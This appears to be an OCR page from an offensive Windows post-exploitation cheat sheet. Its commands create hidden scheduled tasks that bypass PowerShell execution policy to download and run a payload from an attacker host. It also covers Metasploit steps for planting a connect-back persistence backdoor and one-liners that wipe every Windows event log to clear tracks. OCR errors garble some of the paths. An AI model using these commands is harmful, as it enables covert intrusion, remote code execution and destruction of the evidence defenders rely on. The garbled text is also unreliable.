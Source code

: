 ```
SCHTASKS /CREATE /TN persistence /TR
"C:\Windows\System32\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nop -c 'IEX ((new-object net.webclient) .downloadstring("http://attacker-ip/ payload"))'" /SC onidle /i 30
```

\#64-bit-machine

```
SCHTASKS /CREATE /TN persistence /TR
"C:\Windows\sjswow64\WindowsPowerShell\vl.O\powershell.exe -WindowStyle
hidden -NoLogo -Noninteractive -ep bypass -nop -c 'IEX ((new-object net.webclient) .downloadstring("http://attacker-ip/ payload"))'" /SC onidle /i 30
```

**Persistence Using Scheduled Tasks- REMOTE**

```
SCHTASKS /Create /S <target> /RU <username> /RP
<password> /TN "<task name>" /TR "<command>"/SC
<frequency> /ST <time>
```

**Persistence with Metasploit** If you managed to compromise a machine and wants to logout and then login later, you can use Metasploit persistence module and plant a persistence backdoor. This method requires a Meterpreter session and an executable/backdoor that will connect back to your machine. Follow below steps

```
msf > use post/windows/manage/persistence
msf· > set LHOST <attackers ip>
msf > set LPORT <attackers port>
msf >set PAYLOAD_TYPE <tcp or http or https>
msf > set REXENAME backdoor.exe
msf >SESSION 1
msf> set STARTUP SERVICE
```

### Clearing Tracks

**Clearing Event Logs** \[1] cmd

```
for /F "tokens=*" %1 in ('wevtutil.exe el') DO wevtutil.exe cl "%1"
```

\[2] powershell

```
wevtutil el | Foreach-Object {wevtutil cl "$_"}
```
